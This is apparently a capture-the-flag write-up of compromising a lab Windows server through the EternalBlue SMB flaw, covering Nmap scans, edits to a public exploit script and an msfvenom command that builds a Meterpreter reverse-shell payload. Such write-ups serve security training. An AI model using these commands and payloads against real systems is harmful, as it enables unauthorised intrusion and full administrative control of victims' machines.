



The first step was performing a full port scan against the target host to identify exposed services. An aggressive Nmap scan was executed, including default scripts and service version detection.
nmap -Pn -sV -sC -p- --open 10.10.10.40 -oN scan.txtThe results revealed a Windows Server system with SMB services available. An attempt was made to access the SMB service using the anonymous user, but no useful information was retrieved.
To further assess potential vulnerabilities, an additional Nmap scan was performed using the vulnerability detection scripts.
nmap -Pn -sV -sC -p- --open 10.10.10.40 --script vulnThis scan indicated that the SMB service was vulnerable to the well-known EternalBlue vulnerability.

When executing the provided EternalBlue exploit script, an error was encountered indicating that the required named pipe could not be found. This behavior suggested a privilege-related issue within the script execution.
In order to resolve this, the exploit script was reviewed and modified. The first adjustment consisted of explicitly defining the user within the script to ensure proper access.
Further analysis of the script revealed that its current behavior was limited to creating a file on the target system, without returning an interactive shell.

To gain an interactive session, a custom reverse shell payload was generated using msfvenom. The payload was configured to establish a Meterpreter reverse TCP connection.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exeThe exploit script was then modified by uncommenting the relevant section and specifying the full path to the generated reverse shell executable.
After executing the modified script, a successful reverse shell was obtained. As an alternative approach, exploitation could also be performed directly through Metasploit using msfconsole.

Due to the nature of the EternalBlue vulnerability, successful exploitation grants immediate administrative privileges on the target system, completing the compromise without the need for additional privilege escalation techniques.